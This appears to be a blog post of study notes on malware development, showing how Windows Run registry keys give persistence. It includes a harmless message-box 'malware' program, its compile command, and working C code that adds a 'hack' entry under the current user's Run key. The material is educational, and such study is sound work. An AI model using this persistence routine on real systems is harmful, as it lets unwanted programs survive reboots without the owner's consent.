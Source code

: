 ```yaml
---
layout: post
title: 3 MALDEV - Persistence Machanisms
category : [Reverse, MALDEV]
tags: reverse
---
```


# Registry Run Keys 

## Theory 

Default Windows run keys :

- `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run`
- `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce`
- `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run`
- `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce`

Those registry key can be used to run malware, threat actor may employ techniques to create illusion that registry entries are linked to authentic programs.

## Malware C code 

```c 
#include <windows.h>

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
  MessageBoxA(NULL, "Hello, Packt!","=^..^=", MB_OK);
  return 0;
}
```

Which can be compiled with :

```bash 
 x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe  -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

## Persistence C code 

```c 
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  // malicious app
  const char* exe = "Z:\\packtpub\\chapter03\\01-classic-path-registry-run-keys\\hack.exe";

  // startup
  LONG result = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", 0 , KEY_WRITE, &hkey);
  if (result == ERROR_SUCCESS) {
    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"hack", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }
  return 0;
}
```
